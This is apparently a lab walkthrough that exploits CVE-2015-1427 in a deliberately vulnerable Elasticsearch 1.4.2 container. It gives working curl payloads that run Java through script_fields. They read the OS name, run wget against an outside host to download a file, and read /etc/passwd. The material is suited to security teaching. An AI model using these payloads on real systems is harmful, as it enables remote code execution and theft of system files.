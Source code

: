 # Context

The scenario uses an older version of Elasticsearch which was vulnerable to a remote exploit and detailed in CVE-2015-1427.

# Instructions

Create the container.

```
docker run -d -p 9200:9200 --name es benhall/elasticsearch:1.4.2
```

With data inserted, we can now exploit the database. An empty instance is not vulnerable to the problem.

```
curl -XPUT 'http://localhost:9200/twitter/user/kimchy1' -d '{ "name" : "Shay Banon" }'
```

In this case we're using Java to get access to the Operating System name.

```
curl http://localhost:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.System\").getProperty(\"os.name\")"}}}'
```

This command makes external HTTP requests to download additional files. HTTPBin echos the results on the HTTP request, but this could be additional applications to launch additional attacks.

Once the process has been started, we can read the file off disk.

```
curl http://localhost:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"wget -O /tmp/testy http://httpbin.org/get\")"}}}'
```

We can also read potentially sensitive files such as a passwd.

```
curl http://localhost:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getText()"}}}'
```
